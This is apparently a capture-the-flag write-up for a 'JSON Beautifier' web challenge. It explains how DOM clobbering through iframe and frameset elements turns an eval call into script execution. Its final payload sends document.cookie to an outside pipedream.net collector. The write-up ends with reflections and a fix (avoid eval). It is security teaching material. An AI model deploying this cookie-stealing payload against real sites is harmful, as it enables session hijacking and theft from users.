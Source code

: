 ## Skills required: DOM Clobbering for the most part, research and be organized

I'm surprised by this **purely client-side challenge**.
It is a very simplistic, elegant challenge with no distractions and 0 dependency.

For the role part, I mainly scouted the starting parts, all the later parts including the eventual payload are done by Ozetta.

## Solution:

We need to create a **self-XSS** payload with a JSON Beautifier application and send the payload to an admin bot for the cookie i.e. the flag.
As the source is short I'll just include them here:

<details>
  <summary>main.js</summary>

```js
window.inputBox = document.getElementById('json-input');
window.outputBox = document.getElementById('json-output');
window.container = document.getElementById('container');

const defaults = {
	opts: {
		cols: 4
	},
	debug: false,
};

const beautify = () => {
	try {
		userJson = JSON.parse(inputBox.textContent);
	} catch (e){
		return;
	};

	loadConfig();
	const cols = this.config?.opts?.cols || defaults.opts.cols;
	output = JSON.stringify(userJson, null, cols);

	console.log(this.config?.opts)
	
	if(this.config?.debug || defaults.debug){
		eval(`beautified = ${output}`);
		return beautified;
	};
	
	outputBox.innerHTML = `<pre>${output}</pre>`
};

const saveConfig = (config) => {
	localStorage.setItem('config', JSON.stringify(config));
};

const loadConfig = () => {
	if (localStorage.hasOwnProperty('config')){
		window.config = JSON.parse(localStorage.getItem('config'))
	};
}

console.log('hello from JSON beautifier!')

inputBox.addEventListener("DOMCharacterDataModified", () => {
	beautify();
});

if((new URL(location).searchParams).get('json')){
	const jsonParam = (new URL(location).searchParams).get('json');
	inputBox.textContent = jsonParam;
};

beautify();  
```
</details>

<details>
  <summary>Application web page</summary>

```html
<html>
	<head>
		<script defer src="/static/js/main.js"></script>
		<link rel="stylesheet" href="/static/css/style.css">
		<title>JSON Beautifier</title>
	</head>
	<h1>JSON Beautifier</h1>
	<p>Enter your ugly JSON on the left, see the beautified JSON on the right!</p>
	<body>
		<div class="float-container" id="container">
			<div class="float-child" id="json-input" contenteditable autofocus></div>
			<div class="float-child" id="json-output" contenteditable></div>
		</div>
	</body>
</html>
```
</details>

Some quick and obvious keypoints:
- `` eval(`beautified = ${output}`); `` is the obvious sink.
- `` outputBox.innerHTML = `<pre>${output}</pre>` `` is the obvious starting point. However, the page has CSP-Policy: `script-src 'unsafe-eval' 'self'; object-src 'none';`
  - There's no 'unsafe-inline' in `script-src`, namely we cannot inject `<script>` tags *with inline content* or inline JavaScript events like everyone's favorite `<img onerror='fetch(...)'>`, of course we can't include scripts from other domains either.
  - `object-src` removes `<object>`, `<embed>` and `<applet>`.
  - A good review of CSP-filter bypassing is written by [Thakur](https://bhavesh-thakur.medium.com/content-security-policy-csp-bypass-techniques-e3fa475bfe5d). It is not particularly useful during the CTF because the sink is well-known and XSS isn't even the main skill in question.

Thinking backwards:
- We have to corrupt `output`, which is created from:

  ```js
  const cols = this.config?.opts?.cols || defaults.opts.cols;
	output = JSON.stringify(userJson, null, cols);
  ```
- It's generally harder to screw up security for `JSON.stringify` when compared to other serializations like in PHP or Java, but here we see an example. **`cols` is definitely fishy so let's look at [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify#space)**
  ![MDN JSON.stringify](https://i.imgur.com/BvNNWAn.png)
- If we use a `` ` `` for a string array we can get string context bypass:
  
  ![String context bypass with \` for string array, perfectly normal JavaSccript behavior](https://i.imgur.com/D5pfxrj.png)
- We need to set `this.config?.opts?.cols` to some *string* that we control as well as `this.config?.debug` to any truthy value. A good candidate is **[DOM clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)** (I also considered prototype pollution but it is very unlikely in retrospect)

### DOM Clobbering

Here comes the true challenge which got over my head during the CTF for a couple of reasons which I'll summarize. While my knowledge to DOM clobbering is limited to *knowing that it is a thing*, fortunately I wasn't playing alone and had ample of chances to learn. (I'm reverse-engineering the thought process)

- For a very systematic approach, a [good resource by PortSwigger](https://portswigger.net/research/dom-clobbering-strikes-back) describes how the properties can be enumerated. After enumeration, only **frameset:cols** can be string (textarea:cols is number).
- **frameset** is a [really special old-school HTML element](https://html.spec.whatwg.org/multipage/obsolete.html#frameset). HTML documents using `<frameset>` [cannot at the same time use `<body>`](https://www.doyler.net/security-not-included/frameset-xss).
  
  ![frameset has issues with body](https://user-images.githubusercontent.com/114584910/212973636-f723e6a0-3791-4860-965c-dabb0f90426c.png)
- As CSP `frame-src` is absent, we can inject `<iframe>`s into the page, which solves 2 problems:
  - We can now use `<frameset>`, despite it being in a iframe
  - `<iframe>` is also a common payload for DOM clobbering ([DOM Clobbering payload generator](https://domclob.xyz/domc_payload_generator/))
- At this moment we can already have ``"<iframe name=config srcdoc='<frameset id=opts cols=&quot;`&quot;>'></iframe>"``
  
  ![payload worked](https://user-images.githubusercontent.com/114584910/212976594-78e029da-4054-4fb8-a423-5aa76cc4bf78.png)

- ``"<iframe name=config srcdoc='<frameset id=debug><frameset id=opts cols=&quot;`&quot;>'></iframe>"`` works as well.

### The rest

It is important to list the different steps of the payload:
1. A CSP-limited XSS payload will be used for DOM clobbering to set the different properties
2. `beautify()` should be run again, this time with our javascript payload prepended with `` `+ ``
   - This can be done by including `main.js` again in a page with `#json-input`
4. Remember that there can be no body for frameset page.

With all these in mind, let's greet our beautiful actual final payload (partially censored):

``"<iframe srcdoc='<textarea id=json-input>[&quot;`+(location=`https://XXXX.m.pipedream.net/`+document.cookie)//&quot;]</textarea><iframe name=config srcdoc=&apos;<frameset id=debug><frameset id=opts cols=&quot;`&quot;>&apos;></iframe><script src=static/js/main.js></script>'>"``

Summarising what will happen:

1. The payload string will be parsed and stringified normally, injecting an iframe containing:
   - textarea with our true javascript payload prepended with `` `+ ``
   - another iframe containing our clobbering framesets
   - the script `main.js`
2. The framesets will be loaded and properties clobbered.
3. The script `main.js` is loaded within the iframe
4. the textarea content in iframe will be stringified with `` ` ``
5. Our javascript payload will be evaluated

**FLAG:** `idek{w0w_th4t_JS0N_i5_v3ry_beautiful!!!}`

## Reflections:

- I knew about DOM Clobbering, the articles by PortSwigger and payload generator; yet I was not very familiar with the specifics of it and was confused by *normal* clobbering and *string* clobbering.
- I was quite lost in the actual process due to a general ~~noobity~~ infamiliarity with CSPs and DOM clobbering.
- While restructing the payload bottom-up from `frameset`, direct XSS failed due to `body` issue. After some consultation and research I was able to catch that.
- There are some details like encodeURIComponent and HTML entities that I often forget and it's quite easy to make typos.

## Trivia:

- The safe equivalent to `eval` in this case is `JSON.parse`. Converting the `space` parameter to number *could* be an alternative, but nothing really beats avoiding `eval`.
